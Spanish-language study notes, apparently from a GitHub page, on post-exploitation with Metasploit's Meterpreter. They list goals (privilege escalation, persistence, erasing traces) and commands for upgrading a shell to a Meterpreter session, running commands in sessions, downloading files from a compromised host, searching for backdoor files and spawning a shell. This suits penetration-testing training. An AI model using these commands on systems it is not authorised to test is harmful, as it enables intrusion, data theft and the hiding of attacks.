 1. Elevación de privilegios
2. Persistencia
3. Borrar rastro
### Meterpreter

>Se ejecuta en memoria a través de una DLL

- Para movernos entre directorios **IMPORTANTE**
```bash
lcd /root/Desktop
# Para listar donde nos hemos movico, NO ll
lls
```
- Move una **shell a meterpreter**
```bash 
use post/multi/manage/shell_to_meterpreter
set session 1 
run

# Automatizar el process
sessions -u 1
```
- sessions
```bash
#Lanzar un comando rápido sin entrar a la sesión
sessions -C sysinfo -i 1
```
- Para editar un archivo , como con **nano**
```bash
edit archivo
```
- Para descargar
```bash
download archivo
back
unzip archivo
```
- Ver $PATH
```bash
getenv PATH
getenv ENV
```

- Buscar archivos
>**-d:** directorio **-f:** cadena
```bash
search -d /usr/bin/ -f *backdoor*
# Así te la ruta dónde se encuentra
search -f *.jpg
```

- Abrir terminal
```bash
/bin/bash -i 
```
